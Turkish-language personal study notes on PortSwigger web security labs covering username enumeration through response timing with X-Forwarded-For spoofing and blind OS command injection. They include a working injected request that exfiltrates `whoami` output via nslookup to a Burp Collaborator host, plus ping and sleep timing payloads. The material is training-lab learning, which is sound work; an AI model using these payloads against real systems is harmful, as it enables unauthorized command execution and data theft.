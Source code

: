 # PORT SWIGGER NOTLARI


### LAB Notlarim:

__________________________________________
####  Username enumeration via response timing  [ Response timing ve response received ]

Burada oncelikle ```X-Forwarded-For:``` header i ekleyerek en alta ```0 - 600``` e kadar bir brute force ayarliyorum
ardindan parolayi bilerek yanlis yapiyorum ```testtttttttttttttttttt``` gibi bir parola koyuyorum.
username kismina ise wordlistimi ekleyerek pitchfork ile atagi baslatiyorum. receive ve response timing ile bakarak hani ilk bos bir sorgu gonderiyor
o sorgu senin kendi olusturdugun gercek bir hesabin dogru sifresi ve username i olsun. ondan referans almistim ben.

2054 olarak bos bir istek attiginda yani gercek giris yaptiginda bu sayi ile referansimizi aliyoruz.
username salidirisi bittigi zaman baktigimiz zaman bu 2 parametreye receive ve response timing e . 
Cok ama cok yakin bir deger goruoruz. username i bulmus olduk.
simdi ayni sekilde bu sefer parolaya ayni saldiriyi gerceklestiriyoruz.
saldiri bittiginde gordugumuz deger gercek degerdir.

_______________________________________________________________

### OS Command Injection 
```url
csrf=rNED41GCvbP8vgtXfK1rs4BGsTvbe11F&name=testerererere&email=tipybu%40cyclelove.cc||nslookup+`whoami`.oyqhkljtvxhzosoxlu4m9qtg87ey2n.oastify.com+#||&subject=testre&message=testssssss
```
Burada tirnak isareti farkli bunu unutma.
eng klavyede tab in usutndeki olacak whoami

bunun disinda `||ping+-c+10+127.0.0.1+||` bu 10 saniye falan bekletiyor guzel test.
Su son lab da bekletmiyordu mesela. 
yukaridaki nslookup ve burp collabrator yaptigim kisimda tek bu yontem ise yaradi....
Ekstra olarak ping yerine `sleep 10` komutum da ise yaradi/
